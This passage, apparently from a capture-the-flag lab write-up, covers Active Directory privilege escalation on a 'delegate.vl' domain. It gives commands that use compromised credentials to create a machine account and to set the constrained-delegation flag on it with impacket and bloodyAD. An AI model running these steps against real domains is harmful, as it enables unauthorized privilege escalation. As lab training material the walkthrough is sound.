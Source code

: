 ## Privilege Escalation

### Constrained Delegation

Now lets find some vectors to escalate our privileges in the domain.

There are no outbound connections from N.Thompson but we do have one clue or hint this user is part of Delegation Admins group.

So when I checked the privileges associated with this user I got this.

```powershell
whoami /priv
```

![image.png](/assets/images/Delegate_VL/image%2019.png)

Means this user has permissions to grant a user delegation rights.

So lets create a machine account first.

```bash
impacket-addcomputer delegate.vl/'n.thompson':'KALEB_2341' -computer-name 'aashwin$' -computer-pass 'aashwin10!' -method SAMR
```

![image.png](/assets/images/Delegate_VL/image%2020.png)

To do this we must enable **TrustedToAuthForDelegation** flag on **aashwin$** account which we have just created.

```bash
bloodyAD -u 'N.Thompson' -p 'KALEB_2341' --host 'dc1.delegate.vl' -d 'delegate.vl' add uac 'aashwin$' -f 'TRUSTED_TO_AUTH_FOR_DELEGATION'
```

![image.png](/assets/images/Delegate_VL/image%2021.png)

